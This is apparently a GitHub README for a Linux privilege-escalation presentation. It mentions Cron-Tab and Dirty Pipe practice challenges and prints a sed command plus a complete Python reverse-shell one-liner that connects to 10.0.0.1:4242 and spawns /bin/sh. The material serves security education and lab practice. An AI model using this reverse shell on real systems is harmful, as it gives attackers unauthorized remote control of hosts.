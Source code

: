 # LinuxPrivilegeEscalation
My presentation at Cyber Community
<br>You can check the Cron-Tab challange to practice on it :)

# Update 
## 2022
<br>Updated Version Of The Presentation With Dirty Pipe Vuln Demo And More Resources
<br>You can check the index.php challange to practice on it :)
<br>All what you need to host the challange is a vulnerable linux server to dirty pipe LPE
## Notes:
### Used Conmands:
```bash
python3 --version
cat pythonrevshell.py | sed 's/10.0.0.1/192.168.246.138/'
```
### Content of pythonrevshell.py: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
# Contact:
[Twitter](https://twitter.com/0xh41)
[Instagram](https://www.instagram.com/0xh41/)
